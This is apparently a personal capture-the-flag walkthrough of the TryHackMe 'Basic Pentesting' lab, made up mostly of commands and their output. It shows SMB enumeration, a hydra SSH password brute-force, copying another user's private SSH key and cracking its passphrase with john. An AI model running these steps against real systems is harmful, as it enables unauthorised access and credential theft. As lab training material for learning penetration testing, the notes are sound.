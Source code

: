 #TryHackMe #linux 
# Enumeration
## Nmap
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db45cbbe4a8b71f8e93142aefff845e4 (RSA)
|   256 09b9b91ce0bf0e1c6f7ffe8e5f201bce (ECDSA)
|_  256 a5682b225f984a62213da2e2c5a9f7c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http        Apache Tomcat 9.0.7
|_http-title: Apache Tomcat/9.0.7
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Apache Tomcat

## SMB
┌──(root㉿kali)-[/media/sf_kali_partage/challenge/THM/Basic_Pentesting]
└─# smbclient -N -L \\\\10.10.197.244\\                  
        Sharename       Type      Comment
        ---------       ----      -------
        Anonymous       Disk      
        IPC$            IPC       IPC Service (Samba Server 4.3.11-Ubuntu)

┌──(root㉿kali)-[/media/sf_kali_partage/challenge/THM/Basic_Pentesting]
└─# smbclient -N \\\\10.10.197.244\\Anonymous 
	Try "help" to get a list of possible commands.
	smb: \> ls
	  .                                   D        0  Thu Apr 19 13:31:20 2018
	  ..                                  D        0  Thu Apr 19 13:13:06 2018
	  staff.txt                           N      173  Thu Apr 19 13:29:55 2018
	                14318640 blocks of size 1024. 11093364 blocks available
	smb: \> get staff.txt
	getting file \staff.txt of size 173 as staff.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
	smb: \> 

┌──(root㉿kali)-[/media/sf_kali_partage/challenge/THM/Basic_Pentesting]
└─# cat staff.txt
	Announcement to staff:
	PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
	this is how mistakes happen. (This means you too, [Jan]!)

┌──(root㉿kali)-[/media/sf_kali_partage/challenge/THM/Basic_Pentesting]
└─# enum4linux 10.10.197.244
	...SNIP...
	S-1-22-1-1000 Unix User/kay (Local User)                                                     
	S-1-22-1-1001 Unix User/[jan] (Local User)


# Exploit
[┌──(root㉿kali)-/media/sf_kali_partage/challenge/THM/Basic_Pentesting
└─#] hydra 10.10.197.244 -s 22 ssh -l jan -P /usr/share/wordlists/rockyou.txt
	`[22][ssh]` host: 10.10.197.244   login: [jan]   password: [armando]


# FootHold
┌──(root㉿kali)-[~]
└─# ssh jan@thm

┌──(root㉿kali)-[/media/sf_kali_partage/challenge/THM/Basic_Pentesting]
└─# scp jan@thm:/home/kay/.ssh/id_rsa /media/sf_kali_partage/challenge/THM/Basic_Pentesting
	jan@thm's password: 
	id_rsa                               100% 3326     4.8KB/s   00:00  

# PrivEsc
┌──(root㉿kali)-[/media/sf_kali_partage/challenge/THM/Basic_Pentesting]
└─# ssh2john kay_id_rsa > kay_id_rsa_hash

┌──(root㉿kali)-[/media/sf_kali_partage/challenge/THM/Basic_Pentesting]
└─# john kay_id_rsa_hash -wordlist=/usr/share/wordlists/rockyou.txt 
	Using default input encoding: UTF-8
	Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
	Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
	Cost 2 (iteration count) is 1 for all loaded hashes
	Will run 2 OpenMP threads
	Press 'q' or Ctrl-C to abort, almost any other key for status
	[beeswax ]         (kay_id_rsa)

┌──(root㉿kali)-[/media/sf_kali_partage/challenge/THM/Basic_Pentesting]
└─# ssh kay@thm -i /kay_id_rsa

kay@basic2:~$ id
	uid=1000(kay) gid=1000(kay) groups=1000(kay),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
